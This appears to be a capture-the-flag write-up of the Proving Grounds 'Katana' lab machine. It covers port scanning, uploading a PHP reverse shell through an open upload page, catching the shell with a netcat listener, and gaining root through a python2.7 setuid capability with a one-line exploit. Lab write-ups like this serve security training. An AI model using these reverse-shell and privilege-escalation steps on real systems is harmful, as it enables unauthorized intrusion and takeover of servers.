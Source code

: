```yaml
---
title: "Proving grounds Play: Katana"
layout: post
date: 2023-09-28 01:00
categories: writeup
---
```


Proving grounds Play - Katana CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http    LiteSpeed httpd
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
8715/tcp open  http    nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21/tcp - open  ftp - vsftpd 3.0.3

Anonymous login prohibited.

## 80/tcp -  open  http - Apache httpd 2.4.38 ((Debian))

Nothing, but just an image.

![img](/assets/images/CTF/Proving_Grounds/Katana/web-8088.png)

## 8088/tcp - open  http - LiteSpeed httpd

### Directory Fuzzing

Directory fuzzing found multiple files.

```text
http://192.168.197.83:8088/phpinfo.php
http://192.168.197.83:8088/upload.php
http://192.168.197.83:8088/upload.html
```

### upload.html

File upload

![img](/assets/images/CTF/Proving_Grounds/Katana/upload.png)

```text
Please wait for 1 minute!. Please relax!.
File : file1
Name : rshell.php
Type : application/x-php
Path : /tmp/phpSvDMjM
Size : 2589
Please wait for 1 minute!. Please relax!. Moved to other web server: /tmp/phpSvDMjM ====> /opt/manager/html/katana_rshell.php
MD5  : 8bdfb93257f57669e9aa5b48caffe853
Size : 2589 bytes
File : file2
Name : rshell.php
Type : application/x-php
Path : /tmp/phpaXZwe8
Size : 2589
Please wait for 1 minute!. Please relax!. Moved to other web server: /tmp/phpaXZwe8 ====> /opt/manager/html/katana_rshell.php
```

Upload the reverse shell and note down the file name. Fuzz for the file on all 3 URLs.

**Trigger**
http://192.168.197.83:8715/katana_rshell.php

```sh
naveenj@hackerspace:|21:35|~/pg-play/Katana/files$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.197.83] 58806
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 21:37:41 up 18 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (407): Inappropriate ioctl for device
bash: no job control in this shell
www-data@katana:/$ 
```
**Initial Foothold Obtained**

## Privilege Escalation

Get the extended capabilities of the linux machine using the below command.

```sh
getcap -r / 2>/dev/null
```

**Capabilities**

```sh
www-data@katana:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

The binary `/usr/bin/python2.7` has extended capabilities which is vulnerable to privilege escalation.
[More](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).

```sh
www-data@katana:~$ getcap -r / 2>/dev/null  #Get capabilities
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
www-data@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");' #Exploit
< 'import os; os.setuid(0); os.system("/bin/bash");'
id
uid=0(root) gid=33(www-data) groups=33(www-data) #Root Obtained
whoami
root
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).